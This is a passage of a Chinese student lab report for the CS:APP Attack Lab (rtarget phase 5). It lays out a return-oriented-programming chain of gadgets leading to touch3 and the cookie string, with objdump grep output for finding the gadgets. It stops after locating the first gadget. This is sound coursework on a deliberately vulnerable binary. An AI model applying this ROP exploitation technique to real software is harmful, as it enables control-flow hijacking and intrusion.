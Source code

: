 

故而攻击代码由以下部分构成：

1. 采用0x00填充getbuf的下拉栈
2. 在原返回地址上写入movq %rsp, %rax的地址，视为gadget1
3. gadget1的上方写入movq %rax, %rdi的地址，视为gadget2
4. gadget2上方写入pop %rax的地址，视为gadget3
5.  gadget3上方写入偏移量
6. 偏移量上方写入movl %eax, %edx的地址，视为gaget4
7. gadget4上方写入movl %edx, %ecx的地址，视为gaget5
8. gadget5上方写入movl %ecx, %esi的地址，视为gaget6
9. gadget6上方写入lea (%rdi, %rsi, 1)的地址，即gaget0
10. gadget0上方写入movq %rax, %rdi的地址，视为gaget7
11. gadget7上方写入touch3函数的地址
12. touch3函数地址上方写入cookie的十六进制字符串



### 运行栈示意图

<img src="/Users/zhaochen20/CST_THU/csapp/report/stack5.jpeg" alt="stack5" style="zoom:50%;" />



### 实验过程

![popq操作表](/Users/zhaochen20/CST_THU/csapp/report/popq操作表.png)

<img src="/Users/zhaochen20/CST_THU/csapp/report/movq.png" alt="movq" style="zoom:100%;" />

<img src="/Users/zhaochen20/CST_THU/csapp/report/movl.png" alt="movl" style="zoom:100%;" />

首先我们根据上方表格与运行栈示意图得到如下所需指令：

```shell
movq %rsp, %rax 48 89 e0
movq %rax, %rdi 48 89 c7
popq %rax 58
movl %eax, %edx 89 c2
movl %edx, %ecx 89 d1
movl %ecx, %esi 89 ce
lea (%rdi,%rsi,1),%rax 48 8d 04 37
movq %rax, %rdi 48 89 c7
```



分别的查询结果如下，上方为shell指令，下方为对应gadget：

```shell
2020012363@hp:~$ grep "48 89 e0" rtarget.s
  401a44:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ae2:       b8 48 89 e0 c3          mov    $0xc3e08948,%eax
  401af6:       b8 48 89 e0 c7          mov    $0xc7e08948,%eax
  401b0f:       8d 87 48 89 e0 c2       lea    -0x3d1f76b8(%rdi),%eax
  40217a:       48 89 e0                mov    %rsp,%rax
  -----------------------------------------------------------------------------
0000000000401a44 <setval_196>:
  401a44:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401a4a:	c3                   	retq   
可见gadget1地址为0x401a46
```
